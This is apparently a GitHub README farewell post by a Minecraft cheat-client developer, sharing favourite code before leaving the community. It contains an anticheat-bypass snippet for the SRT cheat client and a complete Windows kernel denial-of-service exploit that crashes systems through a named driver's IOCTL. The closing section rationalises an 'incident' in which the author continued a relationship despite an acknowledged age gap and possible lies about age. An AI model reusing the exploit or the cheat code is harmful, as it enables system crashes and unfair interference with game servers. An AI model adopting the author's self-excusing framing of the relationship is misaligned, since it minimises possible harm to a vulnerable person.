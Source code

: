 ### Everything There Was

As a short disclaimer, I'll talk to people that I actually like. I counted a lot of people as "friends," but if you don't see me adding you on a new alias on Discord, then you were just the average "friend" or I don't trust you enough. Explanations for the incident are at the bottom of this repository, but for now, I want to share with you guys the projects that I sincerely loved the most w/ code snippets.

### SRT
SRT, what was going to be a community flag-ship multi-server cheat, is now dead. I will obviously work on it, but never will you see a client I develop ever reach the internet again. As much as I say I hated everything I made, truth is, I loved all of it. That god forsaken community just makes me want to hate it, which was the answer I gave to most people. I want to give you, the Minecraft client-development community, some tips as to how things worked. Reminder that I don't know how to format text on GitHub, so bare with me here:

```
// AntiGamingChair Ascension check disabler
case AGC_ASCENSION: {
                if (e.getPacket() instanceof C00PacketKeepAlive) {
                    try {
                        Thread.sleep(5000L);
                    } catch (Exception ex) {
                        ex.printStackTrace();
                    }
                }
                break;
            }
```
           
One of the best things I have ever added to SRT was the disabler above, as funny as-is, this _does_ work. In the times when the first client I ever made, SkyFall, was in development, I was genuinely more eager to learn more than anyone else. The way I went about it was looking at client source codes, and Dort's Meme Client (the good old days) was what I took a glance at. For the Ghostly disabler, I noticed that he used Thread.sleep to sleep the entire packet thread (FYI he does **not** do this anymore). Ever since I saw that, I kept it in the back of my mind for the literal years to come. In late 2021-ish, I decide to try and make some form of a MinemenClub movement disabler, and I remembered his code for the Ghostly disabler, to eventually evolve into the most simple anticheat disabler to date, with the exclusion of simply cancelling transactions and keep alives. To explain what it actually does, it sleeps the netty thread for five seconds each time the client sends a C00 (which is every second). With this method, you essentially delay the sending and receiving of **ALL** packets for the time specified in Thread.sleep. The lesson to be learned from this, is to not be afraid of failure, to not be afraid of what others think, to not be afraid of applying what you learned. I may not have applied this particular lesson, but it will only benefit you. Some of you may be glad that it is over, some of you will be disappointed that it is over. Despite the entirety of the Dortware/Corrosion client community wanting to murder me after an incident, I do highly recommend purchasing their client; it is the best multi-server client that will ever actually release.



### Exploit Development
Some of the other projects that I absolutely loved the most were the Windows kernel exploitation ones. Never have I ever had as much fun as I did doing these. The fact that I am able to completely bug check Windows itself and blame a targeted driver was one of the coolest things to me, and still is to some extent today. It was a huge learning curve, as I jumped from barely any knowledge to going straight into kernel-mode exploit development, but hell I do **not** regret any of it. An example of the most recent denial-of-service exploit is provided below:

```
#pragma warning(disable : 6273)

#include <Windows.h>
#include <stdio.h>

#define TARGET_DEVICE "\\\\.\\BS_HWMIO"
#define TARGET_IOCTL 0x226050

int main(int argc, char** argv);
DWORD WINAPI ioctl_thread(LPVOID lpParam);

DWORD WINAPI ioctl_thread(LPVOID id)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		return 1;
	}

	printf("\n[*] Thread ID %d launched successfully.", (int)id);

	while (1)
	{
		DeviceIoControl(driver_handle, TARGET_IOCTL, 0, 0, 0, 0, 0, 0);
	}

	return 0;
}

int main(int argc, char** argv)
{
	HANDLE driver_handle = CreateFileA(TARGET_DEVICE, GENERIC_READ | GENERIC_WRITE, 0, 0, OPEN_EXISTING, 0, 0);
	char unused = 0;

	printf("[!] Exploit written by uncodable.\n[!] Target Device Driver Symbolic Link: %s\n[!] Target IO Control Code: 0x%x (%d)\n[!] Beginning denial-of-service exploit...", TARGET_DEVICE, TARGET_IOCTL, TARGET_IOCTL);

	if (driver_handle == (HANDLE)-1)
	{
		printf("\n[-] Unable to obtain a handle to the \"%s\" driver. Handle Value: 0x%p (%d), Error: 0x%x (%d)", TARGET_DEVICE, driver_handle, driver_handle, TARGET_IOCTL, TARGET_IOCTL);
		unused = getchar();
		return 1;
	}
	printf("\n[+] Obtained a handle to the \"%s\" driver. Handle Value: 0x%p (%d)\n[!] Spinning up threads, ready to race!", TARGET_DEVICE, driver_handle, driver_handle);
	
	CloseHandle(driver_handle);

	for (int i = 0; i < 50; i++)
	{
		CreateThread(NULL, 0, ioctl_thread, i, 0, NULL);
	}

	printf("\n[!] It's racing time!");
	unused = getchar();

	return 0;
}
```

... mother of god, is probably what you're thinking. You may be thinking that, but I am looking at what I would have considered an art form. The ability to think outside of the box and actually turn it into something like this always fascinated me, as it always came off as little to no one else could (with that obviously being **false**). What fascinates me even more is the ability to just take complete control over a program's execution flow, redirecting its flow to execute my own code. This right here, is single-handedly the reason why I **LOVE** exploit development and exploits in general as much as I do. There are a lot of things that I like to do, the examples being Windows kernel research, exploit development, bug check codes and analyzing crash dumps, debugging (somewhat lmao), writing code, and breaking things in the greatest of ways possible. Putting it all together, gives me the ability to make these. These are all outcomes of pure motivation. With that being said, the lesson to be learned from this is to pursue what you've dreamed to be. If you wanted to make a hacked client, you now have the motivation; all there is left is to put in the work. Trust me, all of you guys will make it there. As a simple, friendly reminder, this was not the only kernel exploitation propject that I ever had. There are way more that I've done throughout my time.



Now, for the very last thing that I will cover, and I do not dare add its own specific title bar for, the actual incident that arised. Just because I am addressing this, does not mean I'm coming back to the community; I want to do it because this was the first thing in mind, besides nuking every account I ever owned. Avri, someone that I used to talk to, is someone that I was actually talking to, because I genuinely felt relaxed talking to her. Eventually, the two of us actually began trusting each other enough to **literally share info** (which _I_ am not leaking), to solidfy trust even further. I will not be the one to get into the details of the things that I said, but I know what I said. Am I necessarily proud of what I said? You're fucking hilarious if you say "yeah," but understanding the target audience for this explanation, it does not bring an expression of surprise. And to be clear, yeah I aware of the age gap, but I am not even sure if I was lied to anymore. The only two standing, valid reasons why I even continued anyway was because of this thought here: "What age difference sounds better? 20 to 30 or 60 to 70?" I would imagine you picked the latter choice. Now, what if someone were to have carried out a relationship quietly for years to come, then finally made it clear when everything is finally in their acceptable places? People would be surprised, but they would not care. It is only when the information is leaked at its earliest stages, and me consisting of having consistent shit-ass luck, things like this do not surprise me anymore. To not get too off-topic, the other reason is the fact that she was not an asshole at first. I think you (the reader) knew me well enough to know how much I hate assholes, so this was astounding to me as-is. Unfortunately, though, the cliche lesson I learned in English class years ago did not click into memory, the classic that everyone knows: "Don't judge a book by its cover." With all of that now detailed, I would rather stray away from sounding like those generic apology videos scattered about, so I will leave you with this: I am sorry that I am lonely, and decided to go out of my way to try and fix it, like I've wanted to do for the majority of my life.

If you need code snippets of SRT, as now I am genuinely willing to provide **some** (not all), you may ask Cystemz to forward your message to me. I will be telling him to filter out some retarded messages, so I only get the ones that matter to me the most. I'm sorry, but my time in the community is over, while projects like SRT and Rainstorm will thrive forever after.

There is one more message I want to leave for you, and is that I will be privating this repository as well later mid-day tomorrow. I do not want to see repositories on my account anymore, so you can download this at your will and expense. What would I do anyway?
